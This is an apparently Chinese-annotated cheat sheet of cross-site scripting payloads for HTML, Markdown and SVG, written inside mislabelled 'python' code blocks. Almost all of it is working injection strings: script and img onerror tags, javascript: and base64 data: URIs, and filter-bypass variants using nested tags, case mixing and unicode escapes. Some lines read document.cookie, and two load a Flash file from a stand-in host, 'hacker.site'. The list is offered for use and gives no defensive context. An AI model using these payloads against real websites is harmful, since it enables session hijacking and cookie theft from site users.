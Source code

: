 ## XSS in HTML/Applications

```python
Basic Payload:
<script>alert('XSS')</script>
双写：<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert("XSS")</script>
双引号绕过：><script>alert(String.fromCharCode(88,83,83))</script>

Img tag payload:
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert("XSS");>
><img src=x onerror=alert(String.fromCharCode(88,83,83));>

<iframe src=javascript:alert('xss');height=0 width=0 /><iframe> 
<A/1/hREf="javascript:\u0061lert(3)">show 需要点击</A> 
<oBjECt/2/dAtA="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<ScRiPt/3>\u0061lert(2)</ScRiPt>
<svg/4/onLOad="\u0061lert`4`"/>
  
<script src="data:,alert(1);"></script>

<a href="javascript:alert(1)">show</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data="javascript:alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<object data="//hacker.site/xss.swf">  #可使用https://github.com/evilcos/xss.swf
<embedcode="//hacker.site/xss.swf"allowscriptaccess=always>
```

## XSS in Markdown

```python
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

## XSS in SVG (short)

```python
<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

